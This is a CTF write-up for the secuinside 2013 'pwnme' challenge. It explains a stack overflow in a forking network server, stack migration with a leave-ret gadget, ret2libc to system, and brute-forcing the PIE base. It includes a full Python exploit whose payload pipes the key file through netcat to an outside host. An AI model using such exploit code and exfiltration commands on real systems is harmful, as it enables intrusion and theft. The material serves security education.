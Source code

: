 ```yaml
---
title: secuinside CTF 2013 quals pwnme writeup
author: kelwin
layout: post
permalink: /secuinside-ctf-2013-quals-pwnme-writeup/
categories:
  - Uncategorized
---
```

PIE is turned on when compilling pwnme. Position-Independent-Executable is a feature of GCC that allows the executable to behave like a shared library so base addresses can be relocatable.

The major part of the source of pwnme is as below:

    #define MYPORT 8181 
    #define BUFSIZE 1024 
    
    void main(void)
    {
        char buf[BUFSIZE];
        ……    
        if (!fork()) { 
            send(client_fd, "what is your name? ", 19, 0);
    
            memset(buf, 0, sizeof(buf));
            recv(client_fd, buf, BUFSIZE+16, 0);
            send(client_fd, "nice to meet you!\n", 18, 0);
    
            printf("DEBUG : %s was here\n", buf);
            memset(buf, 0, sizeof(buf));
            close(client_fd);
            return 0;
        } else {
            close(client_fd);  
            while(waitpid(-1, NULL, WNOHANG) > 0); 
        }
    }
    

Obviously, it contains a basic stack overflow bug and we can only overwrite return address of `main` function. What&#8217;s worse, the first BUFSIZE bytes of buffer is set to 0 before return of `main`. However, a call of `printf` moves the input buffer to the stdout buffer. We can use a `leave ret` gadget to migrate the stack to the stdout buffer. So suppose we know base address, we can figure out the address of stdout buffer and perform a ret2libc attack using `system` function.

Pwnme forks a child process for each connection, so the base address will be the same with the parent process. Luckily, randomization on x86 Ubuntu is only 9-bits. We can perform a brute-force attack on the base address.

Our exploit code is as follows:

    import sys
    import struct
    import socket
    
    HOST = "54.214.258.68"
    HOST = "172.16.0.142"
    PORT = 8181
    
    def p(addr):
        return struct.pack("<I", addr)
    
    def exploit(base, host, port):
        print hex(base)
        leaveret = p(base + 0xe2953)
        ret = p(base + 0xe2954)
        ebp = p(base + 0x1b7034)
        cmd = '(ls;pwd;cat key) | nc 172.16.0.1 12345'
        cmd_addr = p(base + 0x1b738d)
        system = p(base + 0x41280)
        buf = 180 * ret + system + "AAAA" + cmd_addr + ' ' * (1040 - 180 * 4 - 12 - 1 - 40 - 8 - len(cmd)) + cmd + ';' + 'B' * 40 + ebp + leaveret
    
        try :
            s = socket.socket()
            s.connect((host, port))
            s.settimeout(3)
            s.recv(1024)
            s.send(buf)
            s.close()
            return True
        except socket.error:
            print "socket error!"
            return False
        else:
            sys.exit(1)
    
    # base = 0xb7e23000
    # exploit(base, HOST, PORT)
    
    bases = range(0xb7500000, 0xb76ff000, 0x1000)
    i = 0
    while i < len(bases):
        if exploit(bases[i], HOST, PORT):
            i += 1